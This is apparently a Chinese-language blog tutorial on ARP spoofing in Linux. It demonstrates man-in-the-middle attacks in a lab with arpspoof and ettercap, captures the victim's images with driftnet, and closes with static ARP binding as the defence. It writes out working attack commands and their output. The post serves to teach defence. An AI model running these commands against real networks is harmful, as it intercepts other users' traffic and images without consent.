




Linux环境下ARP攻击的实现与防范
引言
相信很多处于局域网的朋友对ARP攻击并不陌生，在我们常用的Windows操作系统下拥有众多ARP防火墙，可以很好的阻断ARP攻击，但是如果使用的是Linux系统要怎么做才能防止ARP攻击呢？想要防御就需要先了解攻击的原理。这篇文章使用Kali系统（基于Debian的众多发行版之一），实例演示Linux系统如何实施ARP攻击以及如何防范。
文章目录
- 0×1.ARP工作原理
- 0×2.使用arpspoof实现中间人arp攻击
- 0×3.使用ettercap实现中间人arp攻击
- 0×4.使用driftnet实现网卡图片捕获
- 0×5.Linux系统如何防范ARP攻击
0×1.ARP工作原理
简单的说ARP（Address Resolution Protocol 地址解析协议）是在局域网环境中根据IP地址获取MAC地址的一个TCP/IP协议。
希望了解更多ARP工作原理的朋友可以参考一下本站这篇文章：[[CCNA图文笔记]-3-TCP/IP参考模型和协议的对应关系]，文章中"网际层（Internet）"那一节对交换机原理的描述，对理解ARP攻击非常有帮助。
攻击形成的原理浅析，假设有如下的IP与MAC：
局域网网关(A)IP：192.168.1.1
局域网MAC：11:11:11:11:11:11
被攻击者(B)IP：192.168.1.2
被攻击者MAC：22:22:22:22:22:22
攻击者(C)IP：192.168.1.3
被攻击者MAC：33:33:33:33:33:33
正常的时候，计算机B在自己的ARP缓存中记录了正确的网关IP和MAC映射关系（192.168.1.1>11:11:11:11:11:11），而这个时候C发动攻击，他伪造一个虚假的ARP数据包（192.168.1.1>44:44:44:44:44:44）这个数据包发送给B后，B的ARP缓存中关于网关的映射关系就被改成了错误的（192.168.1.1>44:44:44:44:44:44），这个全4的MAC在局域网中根本不存在。
在局域网中想要上网，数据必须先通过网关才能发送出去，但是B计算机的ARP缓存中对应网关的MAC地址被篡改，它现在无法和网关通信，所以就不能正常上网了。
除此之外，如果C伪造的虚假ARP不仅仅是欺骗B还欺骗网关A，C告诉网关，我就是B，然后再告诉B，我就是网关A，那么C作为"中间人"在A和B之间搭建起了一座桥梁，所有B的上网流量都要经过C的网卡发给网关，而网关将返回的数据发给C，再由C发给B，与上面的ARP攻击不同，此时的B是能正常上网的，但它的所有操作都可能被C记录，除非所有的数据在源头被加密发送，而这种加密必须不可逆。
0×2.使用arpspoof实现中间人arp攻击
这篇文章的第2~3小节的内容是在Kali系统中完成的，附上[Kali官方网站]连接，大家可以下载后安装在虚拟机中测试。
实验环境：
攻击者A：系统（Kali），IP （192.168.1.249/24），MAC（00:0c:29:00:4b:47）
靶机B：系统（Ubuntu），IP（192.168.1.201/24），MAC（00:0c:29:fd:ce:ce）
网关C：IP（192.168.1.1），MAC（a6:aa:15:8a:17:22）
在Kali中打开终端，实施中间人攻击：
#在没有开始攻击前，B可以正常上网，其arp缓存如下 B@qingsword.com:~$ ping 192.168.1.1 PING 192.168.1.1 (192.168.1.1) 56(84) bytes of data. 64 bytes from 192.168.1.1: icmp_seq=1 ttl=64 time=1.71 ms #正常的网关arp缓存，和网关C的MAC保持一致 B@qingsword.com:~$ arp -a localhost (192.168.1.1) 位于 a6:aa:15:8a:17:22 [ether] 在 ens36 #1.在A中开启IPv4转发 A@qingsword.com:~$ echo 1 >> /proc/sys/net/ipv4/ip_forward #2.首先对B说，我是网关C，-i参数后面是本地发送数据的接口号，请使用ifconfig查看，不同版本的系统接口号并不相同 A@qingsword.com:~$ arpspoof -i eth0 -t 192.168.1.201 192.168.1.1 #3.然后再打开一个终端，对网关C说，我是B A@qingsword.com:~$ arpspoof -i eth0 -t 192.168.1.1 192.168.1.201 #上面的第2~3步，可以用一条指令代替，-t后面是靶机IP，-r后面是网关IP，效果同上，完成双向欺骗 A@qingsword.com:~$ arpspoof -i eth0 -t 192.168.1.201 -r 192.168.1.1 #此时的B上面会多出两条arp缓存，其中网关的MAC变成了A的MAC地址，这个时候B是可以正常上网的，但是全部的流量都会经过A中转 B@qingsword.com:~$ arp -a localhost (192.168.1.249) 位于 00:0c:29:00:4b:47 [ether] 在 ens36 localhost (192.168.1.1) 位于 00:0c:29:00:4b:47 [ether] 在 ens36
使用ctrl+c停止对B的攻击，下面使用ettercap来实现相同的效果。
0×3.使用ettercap实现中间人arp攻击
Kali中的ettercap功能十分强大，本节仅介绍其arp攻击模块，试验环境同第2小节，首先介绍ettercap的图形模式，在终端中输入下面的命令，打开ettercap图形界面：
A@qingsword.com:~$ ettercap -G
使用中间人模式进行欺骗：
选择本地发送数据的网卡接口：
首先进行局域网扫描，扫描结束后，打开主机列表（如果出现漏扫的情况，多扫描几次）：
将靶机IP添加到target1，将网关IP添加到target2：
在Mitm菜单中，选择arp欺骗（如果要停止所有Mitm攻击，也是在这个菜单中，选择最下面的"Stop mitm attack"）：
勾选remote模式，实现双向欺骗：
完成这一系列操作后，在B上面查看arp缓存，应该得到和第2小节相同的输出，B能正常上网，但上网的所有流量都经过了A的网卡。
下面是ettercap使用命令行模式完成上面的操作，关掉ettercap的图形界面，使用命令行模式：
#首先可以使用nmap扫描整个网段都有哪些存活机器，相当于图3的扫描 A@qingsword.com:~$ nmap -sS 192.168.1.0/24 #使用命令行模式运行ettercap A@qingsword.com:~$ ettercap -Tqi eth0 -M arp:remote /192.168.1.201// /192.168.1.1// /* * 参数详解： * -T 文本模式运行，即命令行模式 * -q 安静模式，不输出嗅探信息 * -i 后面接本地发送数据的接口号，相当图2中选择接口 * -M mitm攻击，相当于图5 Mitm菜单 * arp:remote 实现arp双向欺骗，相当于图6勾选remote * 后面的IP地址，相当于图4的target1和target2 * target的完整格式是"MAC/IPs/IPv6/PORTs"， * 即："硬件地址/IP列表/IPv6地址/端口列表"" * 所以才会出现"/192.168.1.1//"这种奇怪的格式， * 这个格式表明MAC以及IPv6地址和最后的端口号为空，仅使用IP地址作为目标 */ #输入q回车，可以结束嗅探
效果与使用图形化界面相同，请根据不同环境选择不同方式。
0×4.使用driftnet实现网卡图片捕获
使用上面三种方法中的任意一种，完成arp中间人嗅探后，靶机的流量会经过A的网卡转发，现在有一个组件driftnet，可以捕获本地网卡流量中的图片显示出来：
#方法1，仅显示，会打开一个窗口，将经过本地网卡eth0的所有图片信息提取出来显示 A@qingsword.com:~$ driftnet -i eth0 #方法2，不显示，但将捕获到的图片全部保存到/root/cap目录 A@qingsword.com:~$ driftnet -i eth0 -a -d /root/cap #不同版本系统的网卡名称可能不同，请根据自己系统的输出更改
完成后，尝试着在B上面打开一些带图片的页面，看看A上面是不是捕获到了这些图片信息？
0×5.Linux系统如何防范ARP攻击
在Linux中最好的方法就是实现网关IP与网关MAC的静态绑定，只需要一条命令即可完成：
#首先，获取正确的网关MAC地址后，在B上面，使用网关IP到MAC的静态绑定 B@qingsword.com:~$ sudo arp -s 192.168.1.1 a6:aa:15:8a:17:22 #再次查看arp缓存，就会发现网关的arp后面多出一个PERM参数，这说明静态绑成功了，现在再次使用上面任何方法进行arp欺骗，由于静态绑定优先级最高，B不会将数据发送给A，而是直接发送给网关 localhost (192.168.1.1) 位于 a6:aa:15:8a:17:22 [ether] PERM 在 ens36 #实际上完成上面的单向绑定后，A对B的arp欺骗就已经不起作用了，如果我们有路由器的权限，在路由器中绑定B的IP和MAC，实现双向绑定之后，arp欺骗对B就彻底不起作用了 #删除静态绑定的方法，使用参数-d B@qingsword.com:~$ arp -d 192.168.1.1 a6:aa:15:8a:17:22